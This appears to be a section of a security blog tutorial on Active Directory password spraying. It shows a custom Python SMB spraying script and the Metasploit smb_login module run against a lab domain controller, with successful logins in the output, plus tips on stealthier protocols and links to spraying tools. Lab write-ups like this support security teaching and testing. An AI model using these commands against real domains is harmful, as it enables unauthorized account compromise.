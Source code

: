 Attackers have been performing password guessing attacks against AD services since organizations have run AD. A search into AD password spraying will yield results from [2011](https://securityweekly.com/2011/10/19/domain-user-spraying-and-brute/) to today. The Metasploit [smb_login](https://www.offensive-security.com/metasploit-unleashed/smb-login-check/) scanner was published in 2010, hinting at an even earlier use of the attack. As such, it's hard to pinpoint when it was popularized. Regardless, it's obvious that AD password spray attacks have been popular for a very long time.

### Execution

I'm running the attack in my lab domain, which has a few users with intentionally weak passwords. I'll demonstrate a few different tools, including my own.

Here's an attack using my SMB password spray tool, with the password 'Spring2020!'. Note the high time interval between attempts.

```
$ python3 ./smb_password_attacks.py -d "lab.domain" -dc "10.10.3.131" -uf ./target_users.txt -p 'Spring2020!'

...
[*] List of domain controllers:
        10.10.3.131
[*] Number of users: 3
[*] Spray password: Spring2020!
[+] Time estimate is around 15 seconds
[*] Output file name: spraying_output-December-06-2020-03-18.txt
[+] Authentication successful for tjefferson:Spring2020!
[-] Authentication failed for gwashington:Spring2020!: SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[+] Authentication successful for bfranklin:Spring2020!
...
```

Here's the same attack with the Metasploit smb_login module, using password 'Spring2020!'.

```
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.3.131:445       - 10.10.3.131:445 - Starting SMB login bruteforce
[+] 10.10.3.131:445       - 10.10.3.131:445 - Success: '.\tjefferson:Spring2020!'
[-] 10.10.3.131:445       - 10.10.3.131:445 - Failed: '.\gwashington:Spring2020!',
[+] 10.10.3.131:445       - 10.10.3.131:445 - Success: '.\bfranklin:Spring2020!'
[*] 10.10.3.131:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The idea is pretty simple. One common password (at a time), a large number of users. Note that, although I used SMB to test the logins here, there are other options that can be more stealthy (Kerberos, LDAP, etc.).

**Tools:**
- [Metasploit smb_login](https://www.offensive-security.com/metasploit-unleashed/smb-login-check/)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Kerbrute](https://github.com/ropnop/kerbrute)
- [SharpSpray](https://github.com/jnqpblc/SharpSpray)
- [My Password Attack Tool](https://github.com/m1kemu/PythonADTools/blob/main/smb_password_attacks.py)

